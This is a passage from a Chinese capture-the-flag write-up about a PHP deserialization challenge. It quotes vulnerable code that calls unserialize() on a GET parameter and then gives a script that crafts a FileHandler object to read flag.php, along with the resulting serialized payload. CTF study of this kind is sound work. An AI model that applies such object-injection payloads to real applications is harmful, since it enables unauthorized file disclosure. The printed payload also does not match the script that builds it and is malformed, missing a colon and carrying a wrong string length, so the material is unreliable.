 ```php
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

}
```

构造需要的序列化字符串；

```
<?php
class FileHandler {
public $op=' 2';
public $filename="flag.php";
public $content="liandy";  
}
$flag= new FileHandler();
$flag_1=serialize($flag);
echo $flag_1;
?>
```



```txt
O:11:"FileHandler":3{s:2:"op";s:2:"2";s:8:"filename";s:8:"flag.php";s:7:"content";s:6:"liandy";}
```

